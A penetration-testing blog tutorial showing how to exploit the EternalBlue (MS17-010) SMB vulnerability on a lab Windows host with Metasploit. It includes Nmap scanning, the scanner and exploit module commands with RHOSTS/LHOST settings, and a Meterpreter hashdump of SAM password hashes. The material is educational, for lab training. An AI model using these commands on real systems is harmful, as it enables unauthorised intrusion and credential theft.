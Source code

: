 :orphan:
(exploiting-eternalblue-with-metasploit)=

# Exploiting EternalBlue With Metasploit

In this blog article, we will exploit and utilize a vulnerable Windows machine and perform some actions such as identifying a vulnerable SMB service port and dumping SAM file credentials using Metasploit. Before beginning our Nmap scan let's define what is a SAM file on Windows OS.

## What is the Windows SAM file?

The credentials of users are not stored in plain text files by the Microsoft Windows operating system. Rather, it parses the passwords using the NTLM hashing technique, which turns the passwords into cryptographic hash digests. For each local user account, this NTLM hash of the credential is kept in the SAM file.

The SAM file within the Windows operating systems can be found in the `C:\ WINDOWS\system32\config` directory.

## Enumerating default SMB ports

To begin, let’s start by determining whether a target machine is using SMB.

Launch your Kali and run the following command to see if service ports 136, 137, 138, 139, and 445 are up.

`nmap -p 136-139,445 10.10.204.25`

You can see the open service ports on our victim machine in the following image.

![alt img](images/eternalblue-9.png)

## Identifying EternalBlue vulnerability

Next we will see if the victim is susceptible to EternalBlue.

Let’s start Metasploit by typing the following command:

`msfconsole`

![alt img](images/eternalblue-11.png)

Run the following command to display the related Metasploit modules on the console.

`search eternal`

![alt img](images/eternalblue-12.png)

Now let us utilize the auxiliary scanner module to see if the victim machine is susceptible to EternalBlue vulnerability.

`use auxiliary/scanner/smb/smb_ms17_010`

`set RHOSTS 10.10.204.25`

![alt img](images/eternalblue-13.png)

`run`

![alt img](images/eternalblue-14.png)

As you can see in the image, Metasploit has responded positively. This output notes that the target machine would be most likely susceptible to the MS17-010 vulnerability.

## Exploiting EternalBlue vulnerability

Now we can run the command to select the related exploit module:

`use exploit/windows/smb/ms17_010_eternalblue`

![alt img](images/eternalblue-15.png)

Next, run these commands respectively and start the attack:

`set RHOSTS 10.10.204.25`

`set LHOST <your attack machine IP>`

`exploit`

![alt img](images/eternalblue-16.png)

![alt img](images/eternalblue-17.png)

To extract the details of the Security Account Manager (SAM) file, run the `hashdump` command in your Meterpreter session.

`hashdump`

![alt img](images/eternalblue-18.png)

The above screenshot shows the output after executing the `hashdump` command on Meterpreter.

## Conclusion

While Eternalblue vulnerability may appear obsolete in the modern world, there are numerous unpatched and insecure Windows operating systems in various endpoints or companies throughout the world. Upon completion of this blog post, you have now learned how to exploit a specific Windows OS that is susceptible to the ExternalBlue vulnerability and how to access the details of SAM files.

> **Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)**
